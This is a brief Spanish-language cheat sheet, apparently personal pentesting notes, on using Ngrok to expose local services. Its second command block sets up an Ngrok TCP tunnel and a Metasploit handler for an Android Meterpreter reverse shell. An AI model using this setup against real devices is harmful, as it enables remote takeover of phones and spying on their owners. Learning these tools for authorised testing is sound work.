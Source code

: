 # Ngrok

Tags: #Ngrok

[Ngrok](https://ngrok.com/) es un servicio que nos permite crear nuestro servidor local en un subdominio para poder visualizarlo fuera de la LAN, a través de internet.

## Comandos 

```bash 
❯ ngrok help                   # Panel de ayuda 
❯ ngrok http 80                # Se pulica una web de local a publica
```

```bash 
# Usar Ngrok para recibir una 'ReverShell' desde una app

❯ ngrok tcp 4646               # Para abrir y recibir una conexion TCP (Te muestra el dominio publico y su puerto) que a su vez le esta haciendo un 'PortForwarding' a el puerto local '4646' de nuestra maquina


❯ msfconsole                   # Metasploit para recibir la conexion local en el puerto 4646
	❯ use exploit/multi/handler
	❯ set payload android/meterpreter/reverse_tcp 
	❯ set LHOST 0.0.0.0
	❯ set LPORT 4646
	❯ exploit
```